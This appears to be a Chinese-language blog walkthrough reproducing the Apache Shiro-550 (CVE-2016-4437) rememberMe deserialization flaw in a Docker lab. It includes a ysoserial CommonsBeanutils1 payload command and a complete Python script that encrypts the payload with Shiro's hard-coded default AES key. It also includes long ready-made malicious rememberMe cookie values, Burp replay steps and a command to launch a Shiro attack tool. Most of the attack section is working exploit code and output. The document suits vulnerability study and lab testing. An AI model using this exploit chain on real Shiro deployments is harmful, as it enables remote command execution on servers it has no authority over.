Apache Shiro 是一个强大且易用的 Java 安全框架，执行身份验证、授权、密码和会话管理个漏洞被称为 Shiro550 是因为在 Apache Shiro的GitHub 问题跟踪器中，该漏洞最初被标记为第 550 个问题， 721 漏洞名称也是由此而来
# Shiro-550 CVE-2016-4437
Shiro 反序列化 Docker 复现
shiro550 反序列化漏洞原理与漏洞复现
shiro550 代码审计复现
Apache Shiro<= 1.2.4 框架提供了记住我的功能 RememberMe 省去用户短时间内再次登录输入账号密码；
登录成功并选择 RememberMe 功能； Shior 会将 cookie 值序列化字节 AES 加密并 base64 编码存储在 Cookie 的 remeberme 字段
1
2
3
| cookie生成流程:
登录后用户信息----->序列化转化为字节---->AES对称加密---->base64编码---->存储remeberme字段cookie
|
勾选记住密码之后，下次登录时，服务端会根据客户端请求包中的 cookie 值进行身份验证，无需登录即可访问，当客户端再次请求服务端时，都会带上这个服务端第一次返回设置的 Set-Cookie 里面的 rememberMe 的密文，让服务端进行身份验证

各种登录情况

# 漏洞原理
攻击者前期可以使用 Shiro 的 AES 默认密钥或硬编码在源码中的 Key 伪造用户的 Cookie ，检索 cookie 中 remeberme 字段未进行过滤操作，，服务端反序列化 Cookie 时触发漏洞，从而执行命令
1
2
3
4
5
6
7
|
登录后用户信息----->序列化转化为字节---->AES对称加密---->base64编码---->存储remeberme字段cookie
恶意Cookie的rememberMe---->AES解密--->Base64解码---->反序列化---->执行恶意Cookie携带的命令
|
# Docker 开启环境
1
2
3
| docker-compose up -d // 启动容器服务
docker-compose ps // 查看端口6379
|


GitHUb 下载 ** ysosera ** 一个常用的 Java 反序列化利用工具，用于生成各种常见 Java 库的反序列化 payload 。这些 payload 可以被用于利用反序列化漏洞，执行恶意代码或实现攻击，下载后利用此工具选择生成针对 CommonsBeanutils1 库的反序列化 payload ，也称为 gadget , 工具和加密 Py 需要放在 同一目录下，确保生成的 ser 文件和脚本在同级
1
2
3
4
5
6
7
8
|
java -jar ysoserial-all.jar CommonsBeanutils1 "touch /tmp/saber" > poc.ser
注意:
ysoserial脚本其实是在利用构造链进行反序列化对应的命令,所以我们要找到链子
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
|
import sys
import uuid
import base64
from Crypto.Cipher import AES
def encode_rememberme():
f = open('poc.ser','rb')
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
iv = uuid.uuid4().bytes
encryptor = AES.new(key, AES.MODE_CBC, iv)
file_body = pad(f.read())
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
return base64_ciphertext
if __name__ == '__main__':
payload = encode_rememberme()
print("rememberMe={0}".format(payload.decode()))
|
1
2
3
4
| python shiro.py
rememberMe=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
|

1
2
3
4
| ipconfig命令
rememberMe=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
|
# 漏洞复现
账户密码随便输入并勾选记住密码， BP 抓包，加密文件生成的 rememberMe 替换到登录的请求包里，直接发送成功的话将在 tmp 目录下创建我们所写的空文件

字段 rememberMe 没有出现在 cookie 的话就手动添加 登录不勾选此字段 但是 cookie 不添加 rememberMe 同样能加入文件，选择和不选择两种情况都尝试过，只要主动添加了此字段配合工具就可以成功写入文件
1
2
3
| docker exec -it 99d2973f37e9 /bin/bash
cd /tmp
ls
|


注意不管 rememberMe 字段添加与否只要登录了响应包就会出现 Set-Cookie: rememberMe=deleteMe;
主动添加字段后再发送会出现两个相同的字段

# 工具复现
GitHub 下载了两款工具，原理感觉都是报名默认的密匙，直接运行 jar 包是不行的， jdk11 后就需要手动的去下载和当前 jdk 版本一致的 javafx 运行命令如下，配置 javafx 运行 jar 包
1
2
3
| java --module-path E:\Java资源\javafx\javafx-sdk-11.0.1\lib
--add-modules javafx.controls,javafx.fxml -jar .\shiro_attack-4.7.0-SNAPSHOT-all.jar
|
